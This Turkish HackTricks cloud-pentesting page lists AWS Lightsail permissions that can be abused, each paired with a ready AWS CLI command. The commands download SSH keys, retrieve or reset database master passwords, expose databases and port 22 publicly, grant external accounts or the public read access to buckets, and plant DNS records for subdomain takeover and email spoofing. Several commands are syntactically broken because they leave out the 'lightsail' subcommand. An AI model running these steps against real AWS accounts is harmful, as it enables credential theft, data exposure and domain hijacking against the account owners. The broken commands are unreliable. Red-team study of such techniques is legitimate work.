 # AWS - Lightsail Privesc

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## Lightsail

Lightsail hakkında daha fazla bilgi için kontrol edin:

{% content-ref url="../aws-services/aws-lightsail-enum.md" %}
[aws-lightsail-enum.md](../aws-services/aws-lightsail-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Lightsail'in **kullanıcıya ait IAM rollerini kullanmadığını** ancak AWS yönetilen bir hesaba ait olduğunu belirtmek önemlidir, bu nedenle bu hizmeti privesc için kötüye kullanamazsınız. Ancak, bu hizmette **kod, API anahtarları ve veritabanı bilgileri** gibi **hassas veriler** bulunabilir.
{% endhint %}

### `lightsail:DownloadDefaultKeyPair`

Bu izin, örneklere erişmek için SSH anahtarlarını almanıza olanak tanır:
```
aws lightsail download-default-key-pair
```
**Olası Etki:** Örneklerin içinde hassas bilgileri bulmak.

### `lightsail:GetInstanceAccessDetails`

Bu izin, örneklere erişmek için SSH anahtarları oluşturmanıza olanak tanır:
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**Olası Etki:** Örneklerin içinde hassas bilgileri bulmak.

### `lightsail:CreateBucketAccessKey`

Bu izin, size kovaya erişim anahtarı almanıza olanak tanır:
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**Olası Etki:** Kova içinde hassas bilgileri bulmak.

### `lightsail:GetRelationalDatabaseMasterUserPassword`

Bu izin, veritabanına erişim için kimlik bilgilerini almanıza olanak tanır:
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**Olası Etki:** Veritabanında hassas bilgileri bulmak.

### `lightsail:UpdateRelationalDatabase`

Bu izin, veritabanına erişim için şifreyi değiştirmenize olanak tanır:

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
{% endcode %}

Eğer veritabanı kamuya açık değilse, bu izinlerle kamuya açık hale getirebilirsiniz

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
{% endcode %}

**Olası Etki:** Veritabanında hassas bilgileri bulmak.

### `lightsail:OpenInstancePublicPorts`

Bu izin, portları İnternete açmaya olanak tanır.
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**Olası Etki:** Hassas portlara erişim.

### `lightsail:PutInstancePublicPorts`

Bu izin, portları İnternet'e açmaya olanak tanır. Bu çağrının, belirtilmeyen herhangi bir açılan portu kapatacağını unutmayın.
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**Olası Etki:** Hassas portlara erişim.

### `lightsail:SetResourceAccessForBucket`

Bu izin, bir örneğe ek kimlik bilgisi olmadan bir kovaya erişim verme imkanı tanır.

{% code overflow="wrap" %}
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
{% endcode %}

**Potansiyel Etki:** Hassas bilgilere sahip bucket'lara potansiyel yeni erişim.

### `lightsail:UpdateBucket`

Bu izinle bir saldırgan, kendi AWS hesabına bucket'lar üzerinde okuma erişimi verebilir veya bucket'ları herkes için halka açık hale getirebilir:
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**Potansiyel Etki:** Hassas bilgilere sahip bucket'lara potansiyel yeni erişim.

### `lightsail:UpdateContainerService`

Bu izinlerle bir saldırgan, konteyner hizmetinden özel ECR'lere erişim verebilir.
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**Olası Etki:** Özel ECR'den hassas bilgiler elde etme

### `lightsail:CreateDomainEntry`

Bu izne sahip bir saldırgan, alt alan adı oluşturabilir ve bunu kendi IP adresine yönlendirebilir (alt alan adı ele geçirme), ya da alan adından e-posta sahtekarlığı yapmasına izin veren bir SPF kaydı oluşturabilir, hatta ana alan adını kendi IP adresine ayarlayabilir.
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Olası Etki:** Bir alan adını ele geçirmek

### `lightsail:UpdateDomainEntry`

Bu izne sahip bir saldırgan, alt alan adı oluşturabilir ve bunu kendi IP adresine yönlendirebilir (alt alan adı ele geçirme), ya da alan adından e-posta sahteciliği yapmasına izin veren bir SPF kaydı oluşturabilir, hatta ana alan adını kendi IP adresine ayarlayabilir.
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Potansiyel Etki:** Bir alanı ele geçirmek

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **Bize katılın** 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) veya **bizi** **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** takip edin.**
* **Hacking ipuçlarını paylaşarak** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
